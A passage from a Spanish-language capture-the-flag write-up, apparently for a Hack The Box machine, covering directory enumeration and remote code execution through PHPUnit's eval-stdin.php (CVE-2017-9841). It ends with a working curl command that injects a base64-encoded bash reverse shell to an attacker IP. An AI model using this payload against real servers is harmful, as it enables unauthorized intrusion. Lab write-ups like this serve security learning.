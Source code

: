 ```console
/vendor               (Status: 200) [Size: 3126] 
/fonts                (Status: 200) [Size: 7580]
```

> Explicación de parámetros :
{: .prompt-info}

> dir : Usar modo de enumeración de directorios/archivos
>
> -t \<count\> : Asignar \<count\> tareas en paraleo
>
> -u \<url\> : Url objetivo
>
> -b \<status\_code\> : Omitir output de ciertos \<status\_code\>
>
> -w \<wordlist\> : Ruta de \<wordlist\> para el fuzzing

Todas la rutas son clásicas de un sitio web menos `vendor`, el cuál tiene activo **Directory Listing**:

![HTTP/VENDOR](http_vendor_path.png){: .shadow}

## Foothold

* * *

Investigando un poco encontramos una vulnerabilidad que nos permite **Remote Code Execution** por medio del framework **PHPUnit [(CVE-2017-9841)](https://blog.ovhcloud.com/cve-2017-9841-what-is-it-and-how-do-we-protect-our-customers/)**

La vulnerabilidad se da gracias a la linea de código `eval('?>' . file_get_contents('php://input'));` del archivo `eval-stdin.php` de reside en la ruta `http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php`

Ahora solo nos queda inyectar una **Reverse shell** y conseguimos entrar a la máquina como el usuario **www-data**:

Podemos hacerlo usando `burpsuite` o `curl` :

> **Burpsuite**
>
> ![BURPSUITE/RCE](burpsuite_rce.png)

> **Curl**
>
> Para evitar problemas con las comillas dobles y simples `"",''`, codificamos nuestra reverse shell a `base64` y ya en la petición lo decodeamos con `base64_decode` para ejecutarlo:
>
```shell
curl -s -XPOST -d '<?php system(base64_decode(L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE2LzEyMzQgMD4mMScK));' http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```
{: .nolineno }

